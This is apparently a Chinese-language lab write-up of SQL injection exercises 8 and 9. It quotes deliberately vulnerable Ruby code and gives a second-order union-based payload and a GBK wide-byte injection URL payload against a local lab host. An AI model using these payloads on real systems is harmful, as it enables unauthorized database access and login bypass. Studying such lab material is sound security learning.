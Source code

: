 ```

  post '/user' do
    User.create(:username => params[:user], :password => Digest::MD5.hexdigest(SEED+params["password"]+SEED))
    redirect SQLInjectionExample8.path
  end
```
完全看不懂，所以贴上官网的解释
```
This example is vulnerable to "second order SQL injection", instead of directly injecting your payload in the request, you will first insert it in the database using a first request and then trigger the payload in a second request. The first request is not vulnerable to SQL injection, only the second is. However, you do not directly control the value used, you need to inject it using the first request. This issue comes from the fact that the developer trusted the values coming from the database.

Each attempt will need two steps:

Create a user with your payload.
Access this user information to trigger your payload.
If you want to be efficient you need to automate this process using a simple script. The payload can be as simple as a union-based exploitation.
```
搜到一个payload但是我的本地过不了
```
http://192.168.5.40/sqlinjection/example8/
creat user name:xxxx' union select 188,9999 ,7777#
visite user
```

## example9
稍微测试了下没什么发现，错误显示也关了，那去看看后台吧
```
get '/' do
    ActiveRecord::Base.establish_connection SQLInjectionExample9.db
    res = []
    if params['username'] && params['password'] 
      begin
        sql= "SET CHARACTER SET 'GBK';" 
        ActiveRecord::Base.connection.execute(sql)
        name = ActiveRecord::Base.connection.quote_string(params[:username])
        password = Digest::MD5.hexdigest(SEED+ActiveRecord::Base.connection.quote_string(params[:password]+SEED))
        sql = "SELECT * FROM users WHERE username='#{name}'"
        sql+= " AND password='"+password+"'"
        res = ActiveRecord::Base.connection.execute(sql).to_a
      rescue Exception => e
        @message = e.to_s 
      end
    end
    pp res
    if res.size > 0
      erb :index
    else
      erb :login
    end
  end
```
看到gdk就有想法了，应该是宽字节注入。
但是只传入username一个为`%bf%27+or+1=1#`会报错说编码应为utf-8
所以payload为
```
?username=%bf%27+or+1%3D1+%23&password=%bf%27+or+1%3D1+%23&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```